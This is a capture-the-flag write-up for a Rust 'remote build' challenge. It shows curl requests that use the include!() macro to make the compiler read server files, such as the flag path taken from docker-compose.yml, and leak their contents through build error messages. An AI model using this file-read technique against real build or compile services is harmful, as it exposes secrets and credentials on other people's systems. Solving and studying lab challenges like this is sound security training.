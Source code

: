 ```yaml
---
title: Root-XMAS 2024 Day 04 - Build And Drustroy
feed: hide
permalink: /RootXMAS_2024_04
date: 04-12-2024
summary: Rust is safe, so my project has no vulns.
---
```

### summary

A service where we can compile a Rust file, but it doesn't get executed.
However, we get the build errors returned, so we can get some compile time code generation containing the flag file with `include!()` macro. 
### recon

Yay , Rust, [I love Rust!](https://youtu.be/o-VizqRKekI?si=lBJ3Dr7f9eTfEhlk) 🦀
So we get an example usage of the service and its source code.

We send our Rust source code to the service and a compiled executable will be returned:

```bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary

	file binary
```

The source code is pretty verbose, that's Rust for you, but it means there is great error handling to make it safer!
The interesting bits:

```rust
	for filename in map.keys() {
		if !filename.ends_with(".rs") || filename.contains("..") {
			let mut response = Response::new(full("Grrrrr(ust)."));
			*response.status_mut() = StatusCode::FORBIDDEN;
```

Means we can upload multiple files, but can't do path traversal or upload another kind of file, like a new `Cargo.toml`

```rust
let cargo_toml = r#"
[package]
name = "temp_build"
version = "0.1.0"
edition = "2021"

[dependencies]
"#;
```

Speaking of which, the `cargo.toml` does not allow any dependency.

```rust
if !build_output.status.success() {
	let stderr = String::from_utf8_lossy(&build_output.stderr);
	...
	let mut response = Response::new(full(format!("Build failed: {}", stderr)));
	*response.status_mut() = StatusCode::BAD_REQUEST;
```

Now for the interesting part: the build error messages are returned in the request response!
That's nice, we can have the feedback of the great Rust compiler to fix our code!

Of course, we could also abuse it to execute macros and leak the flag!
### solution

As I was a bit... rusty, I googled "rust compile time code execution macro" and it lead on the Reddit post [Execute code once at compile time?](https://www.reddit.com/r/rust/comments/g19aal/execute_code_once_at_compile_time/) , explaining the use of the [include!](https://doc.rust-lang.org/std/macro.include.html) macro.

as its name suggests, it includes content of a file as code at build time.
It is used to add Rust files from anywhere in the file system, with apparently legitimate use for including documentation and build artifact files.

Now if our included file happened not to be valid rust code, build would fail and the compiler would nicely tell us what would be the problem :)

let's try it!

```bash
curl -sSk ... -d '{"src/main.rs":"fn main() { include!(\"/flag.txt\"); }"}'
	Build failed:    Compiling temp_build
	error: couldn't read /flag.txt: No such file or directory
	 --> src/main.rs:1:13
	1 | fn main() { include!("/flag.txt"); }
```

Oh wait, where is the flag?
Silly me, the path was in the `docker-compose.yml` !

```yaml
volumes:
- ./flag.txt:/flag/randomflaglolilolbigbisous.txt
```

```bash
curl -sSk -d '{"src/main.rs":"fn main() { include!(\"/flag/randomflaglolilolbigbisous.txt\"); }"}'
	Build failed:    Compiling temp_build
	error[E0425]: cannot find value `OffenSkillSaysHi2024RustAbuse` in this scope
	 --> /flag/randomflaglolilolbigbisous.txt:1:1
	  |
	1 | OffenSkillSaysHi2024RustAbuse
	  | ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ not found in this scope
```

As simple as one macro call!


| Previous day | [[Day 03 - Santa's Magic Sack]]   |
| ------------ | --------------------------------- |
| Next day     | [[Day 05 - The Friendly Snowman]] |